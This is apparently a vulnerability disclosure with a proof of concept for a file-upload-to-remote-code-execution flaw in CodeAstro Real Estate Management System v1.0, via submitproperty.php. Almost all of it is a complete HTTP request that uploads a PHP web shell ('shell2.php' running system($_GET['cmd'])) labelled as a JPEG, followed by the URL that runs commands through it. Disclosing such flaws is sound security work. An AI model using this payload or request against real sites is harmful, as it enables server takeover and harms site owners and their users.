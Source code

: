 # Unauthorized File Upload to RCE in CodeAstro Real Estate Management System v1.0 of file /submitproperty.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- submitproperty.php

**Version**

- V1.0

### POC 

/submitproperty.php File Upload to RCE


```http
POST /submitproperty.php HTTP/1.1
Host: www.realestate1.top
Cookie: PHPSESSID=29il4v1ositshrfe7un295114t
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="title"

Test Property
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="content"

Test content
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="ptype"

apartment
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="bhk"

1 BHK
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="bed"

1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="balc"

1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="hall"

1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="stype"

rent
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="bath"

1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="kitc"

1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="floor"

1st Floor
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="price"

100000
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="city"

Test City
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="asize"

1000
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="loc"

Test Location
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="state"

Test State
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="status"

available
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="feature"

Test features
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="totalfl"

1 Floor
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="isFeatured"

0
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="aimage"; filename="shell2.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="aimage1"; filename="test1.jpg"
Content-Type: image/jpeg

fake_image_data
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="aimage2"; filename="test2.jpg"
Content-Type: image/jpeg

fake_image_data
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="aimage3"; filename="test3.jpg"
Content-Type: image/jpeg

fake_image_data
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="aimage4"; filename="test4.jpg"
Content-Type: image/jpeg

fake_image_data
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="fimage"; filename="floor.jpg"
Content-Type: image/jpeg

fake_image_data
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="fimage1"; filename="floor1.jpg"
Content-Type: image/jpeg

fake_image_data
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="fimage2"; filename="floor2.jpg"
Content-Type: image/jpeg

fake_image_data
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="add"

Submit Property
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

![image-20250817162418197](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171624304.png)

```
http://www.realestate1.top/admin/property/shell2.php?cmd=id
```

![image-20250817162508956](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171625079.png)